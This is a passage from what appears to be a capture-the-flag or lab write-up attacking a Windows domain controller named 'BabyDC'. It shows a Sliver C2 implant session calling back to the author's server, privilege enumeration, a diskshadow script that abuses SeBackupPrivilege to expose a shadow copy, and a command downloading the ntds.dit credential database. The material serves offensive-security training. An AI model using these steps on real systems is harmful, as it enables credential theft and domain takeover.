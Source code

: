 I've set up a listener and once I invoke the implant on the machine I will get a session on my server.

```bash
[*] Session b7e812e4 EXISTING_CROTCH - 10.10.83.8:52141 (BabyDC) - windows/amd64 - Mon, 18 Dec 2023 09:57:19 EET
```

Then I've started to enumerate the privileges first.

```
[server] sliver (EXISTING_CROTCH) > getprivs

Privilege Information for EXISTING_CROTCH.exe (PID: 3248)
---------------------------------------------------------

Process Integrity Level: High

Name                            Description                     Attributes
====                            ===========                     ==========
SeMachineAccountPrivilege       Add workstations to domain      Enabled, Enabled by Default
SeBackupPrivilege               Back up files and directories   Enabled, Enabled by Default
SeRestorePrivilege              Restore files and directories   Enabled, Enabled by Default
SeShutdownPrivilege             Shut down the system            Enabled, Enabled by Default
SeChangeNotifyPrivilege         Bypass traverse checking        Enabled, Enabled by Default
SeIncreaseWorkingSetPrivilege   Increase a process working set  Enabled, Enabled by Default
```

And I noticed that we have the `SeBackupPrivilege` and `SeRestorePrivilege` privilege enabled, that automatically means that we can abuse those to get the `ntds.dit,SAM,SYSTEM` files to obtain some hashes that we can use further to escalate our privileges.

There are a lot of resources for this technique, here are some of my favorite reads:
- https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
- https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#shell-as-svc_backup
- https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/


I created a file on my local system called `syl.dsh` which is basically a script file that can execute series of commands, the contents is as follows:

```bat
set context persistent nowriters
add volume c: alias syl
create
expose %syl% z:
```

This sets the context to be persistent, so that the shadow copies will be kept after the `diskshadow` session is closed. Then we add a shadowcopy of the C:\ drive with the alias `syl`, we create it and we expose it as another drive `Z:`

Then we can download the shadow copy of the `ntds` file using the SilverC2's interactive mode.

```bash
[server] sliver (EXISTING_CROTCH) > download Z:\Windows\ntds
```
